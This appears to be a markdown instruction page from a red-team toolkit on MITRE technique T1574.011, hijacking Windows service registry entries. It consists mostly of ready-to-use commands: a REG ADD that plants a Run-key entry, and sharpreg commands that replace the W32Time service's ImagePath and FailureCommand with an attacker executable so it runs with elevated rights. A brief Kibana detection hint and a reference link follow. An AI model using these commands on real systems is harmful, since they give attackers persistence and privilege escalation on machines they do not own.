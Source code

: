 # [Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/)

## Exploit Description:
Hijack registry entries used by services by using flaws in permissions.  
HKLM\SYSTEM\CurrentControlSet\Services
REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run /v “Canon Gear” /t REG_SZ /d C:\Users\Administrator.vcch\Appdata\Local\.exe
(Substitute registry path locations with what is needed) 


## Exploit syntax:
* Reference [Modify registry](/Poshc2/instructions/Modify_registry.md) for syntax. 

* Example of altering the "FailureCommand" key so that the service is executed in an elevated context anytime the service fails or is intentionally corrupted:

    ```powershell
    # First run this command to stage the service
    sharpreg create     "HKLM\SYSTEM\CurrentControlSet\Services\W32Time" "ImagePath"    "C:\tmp\RUNDLL.exe" REG_SZ

    sharpreg create     "HKLM\SYSTEM\CurrentControlSet\Services\W32Time"    "FailureCommand" "C:\tmp\RUNDLL.exe"  REG_SZ

    ```
    >**Note**: The original image path is " ImagePath	(ExpandString) -> 	C:\windows\system32\svchost.exe -k LocalService"
## Detection Technique:
* Investigating Run and Startup registry keys.

* Kibana:
    * event.code: 13
    * registry.key: *


## Resources
* https://pentestlab.blog/tag/failurecommand/